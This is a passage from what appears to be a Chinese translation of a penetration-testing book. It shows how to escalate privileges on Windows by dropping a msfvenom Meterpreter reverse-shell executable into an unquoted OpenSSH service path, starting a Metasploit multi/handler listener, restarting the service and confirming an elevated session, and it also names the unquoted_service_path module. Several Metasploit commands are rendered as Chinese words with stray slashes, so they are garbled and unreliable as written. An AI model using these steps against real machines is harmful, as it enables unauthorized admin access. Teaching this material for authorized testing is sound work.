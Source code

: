 1.  我们现在可以通过运行以下命令，将 Meterpreter 可执行文件上传到目标的 OpenSSH 服务路径：

    **上传 /home/kali/Desktop/cygrunsrv.exe**

    如果你使用的是标准命令 shell，可以使用 `certutil` 工具将二进制文件传输到目标系统。

1.  如下图所示，这将把 Meterpreter 可执行文件上传到 OpenSSH 服务路径：![图 8.3 – 上传 Meterpreter 有效负载]

    ](Images/B17389_08_003.jpg)

    图 8.3 – 上传 Meterpreter 有效负载

1.  我们现在需要使用 Metasploit 设置 Meterpreter 监听器。这可以通过在 Metasploit 控制台中运行以下命令来完成：

    **使用 /exploit/multi/handler**

1.  下一步是指定我们用 `msfvenom` 创建二进制文件时所使用的有效负载。这可以通过运行以下命令来完成：

    **设置有效负载 /windows/x64/meterpreter/reverse_tcp**

1.  我们现在需要配置模块选项。在此情况下，我们需要配置 `LHOST` 和 `LPORT` 选项，如下图所示：![图 8.4 – Meterpreter 有效负载选项]

    ](Images/B17389_08_004.jpg)

    图 8.4 – Meterpreter 有效负载选项

1.  在设置模块选项后，我们可以通过运行以下命令启动监听器：

    **运行**

    监听器将会监听来自我们使用`msfvenom`生成的有效负载的任何传入连接。

1.  为了执行 Meterpreter 可执行文件，我们需要重启 OpenSSH 服务。这可以通过在 Windows 命令 shell 中运行以下命令来完成：

    `sc stop OpenSSHd`

    `sc start OpenSSHd`

1.  如下图所示，这将重新启动 OpenSSH 服务，接着我们应该会在监听器上收到一个特权的 Meterpreter 会话：![图 8.5 – Meterpreter 会话]

    ](Images/B17389_08_005.jpg)

    图 8.5 – Meterpreter 会话

1.  我们可以通过运行以下命令来验证我们是否有升级的 Meterpreter 会话：

    `getuid`

    如下截图所示，我们已成功提升权限，并应该具有具有管理权限的 Meterpreter 会话：

    ![图 8.6 – 未引用服务路径 Meterpreter 权限    ](img/B17389_08_006.jpg)

    图 8.6 – 未引用服务路径 Meterpreter 权限

1.  我们还可以通过使用 Metasploit 模块自动化流程来识别和利用具有未引用服务路径的目标服务，并自动上传一个提供我们升级 Meterpreter 会话的反向 shell 有效负载。这可以通过在 Metasploit 控制台中运行以下命令来完成：

    `use exploit/windows/local/unquoted_service_path`
